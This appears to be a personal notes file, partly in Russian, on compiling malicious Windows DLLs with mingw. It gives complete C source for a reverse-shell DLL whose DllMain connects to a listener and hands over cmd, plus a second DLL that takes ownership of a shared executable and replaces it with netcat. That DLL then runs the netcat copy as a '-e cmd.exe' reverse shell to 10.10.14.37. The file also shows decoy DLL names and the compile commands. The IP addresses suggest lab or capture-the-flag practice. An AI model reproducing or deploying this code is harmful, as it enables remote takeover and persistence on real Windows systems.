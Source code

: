 # c-c-
 
regsvr32.exe ReverseShellDLL.dll (запуск dll)
 
-static     компиляция со всеми билиотеками во внутрь

Cоздание dll


sudo apt install mingw-w64

x86_64-w64-mingw32-gcc-win32 shell.c -shared -lws2_32 -o VerifyThemeVersion.dll

python3 -m pefile exports VerifyThemeVersion.dll (скажет что за функции находятся внутри)

rundll32 shell,0

----------------------
    #include <winsock2.h>
    #include <windows.h>
    #include <io.h>
    #include <process.h>
    #include <sys/types.h>
    #include <stdio.h>
    #include <stdlib.h>
     #include <string.h>



static int ReverseShell(const char *CLIENT_IP, int CLIENT_PORT) {

        WSADATA wsaData;
        if (WSAStartup(MAKEWORD(2 ,2), &wsaData) != 0) {
                write(2, "[ERROR] WSASturtup failed.\n", 27);
                return (1);
        }

        int port = CLIENT_PORT;
        struct sockaddr_in sa;
        SOCKET sockt = WSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
        sa.sin_family = AF_INET;
        sa.sin_port = htons(port);
        sa.sin_addr.s_addr = inet_addr(CLIENT_IP);


        if (connect(sockt, (struct sockaddr *) &sa, sizeof(sa)) != 0) {
                write(2, "[ERROR] connect failed.\n", 24);
                return (1);
        }


        STARTUPINFO sinfo;
        memset(&sinfo, 0, sizeof(sinfo));
        sinfo.cb = sizeof(sinfo);
        sinfo.dwFlags = (STARTF_USESTDHANDLES);
        sinfo.hStdInput = (HANDLE)sockt;
        sinfo.hStdOutput = (HANDLE)sockt;
        sinfo.hStdError = (HANDLE)sockt;
        PROCESS_INFORMATION pinfo;
        CreateProcessA(NULL, "cmd", NULL, NULL, TRUE, CREATE_NO_WINDOW, NULL, NULL, &sinfo, &pinfo);

        return (0);
}

void DllMain() {
        ReverseShell("192.168.50.123", 9001);
//        ReverseShell("10.10.14.20", 9001);
}
-----------------------------------------Вызывалка----------------------

x86_64-w64-mingw32-gcc-win32 test.c  -o test.exe
    --------------------------------
#include <windows.h>
#include <stdio.h>

int main( void )
{
        HINSTANCE hDll;

        // Load Dll
        hDll = LoadLibrary(TEXT("max.dll"));

        // If Dll Was Loaded
        if (hDll != NULL){
                printf("DLL Found\n");
                } else {
                printf("DLL Not Found");
                }
        return 0;
}

----------------------------------------------------ДЛЛКА

x86_64-w64-mingw32-gcc-win32 max.c  -o max.dll -shared

   ------------------------------------------

#include <windows.h>

BOOL WINAPI
DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved)
{
        switch (dwReason)
        {
         case DLL_PROCESS_ATTACH:
          MessageBox(NULL,
                        "dsfvsdfsd",
                        "dsvsdvs",
                        MB_ICONERROR | MB_OK);
        break;
        }
return TRUE;
}


# Простая DLL на С

#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved)

{
  switch (dwReason)
{
case DLL_PROCESS_ATTACH:
        system("cmd.exe /c whoami /all > c:\\users\\public\\pleasesub.txt");

        system("cmd.exe /c takeown /F c:\\share\\bginfo64.exe");
        system("cmd.exe /c cacls c:\\share\\bginfo64.exe  /E /G ginawild:F");
        system("cmd.exe /c icacls c:\\share\\bginfo64.exe >> c:\\users\\public\\pleasesub.txt");

        system ("cmd.exe /c copy c:\\inetpub\\wwwroot\\data\\sites\\1\\media\\nc64.exe c:\\share\\bginfo64.exe");

        system ("cmd.exe /c copy c:\\inetpub\\wwwroot\\data\\sites\\1\\media\\nc64.exe c:\\share\\nc64.exe");

        system("cmd.exe /c c:\\share\\bginfo64.exe -e cmd.exe 10.10.14.37 9002");
        system("cmd.exe /c ping 10.10.14.37");

        break;
}
return TRUE;
}


x86_64-w64-mingw32-gcc-win32 script.c -o 7-zip64.dll -shared


-----------------------------------------
# Компиляция C# из линукс

sudo apt install mono-devel

mcs -target:library -out:Shell.dll Shell.cs

# Компиляция CS
	и активация webdav https://gist.githubusercontent.com/klezVirus/af004842a73779e1d03d47e041115797/raw/29747c92ca04c844223d1ef6c1463d7e34e271ee/EtwStartWebClient.cs
	mcs startweb.cs /unsafe -out:start.exe
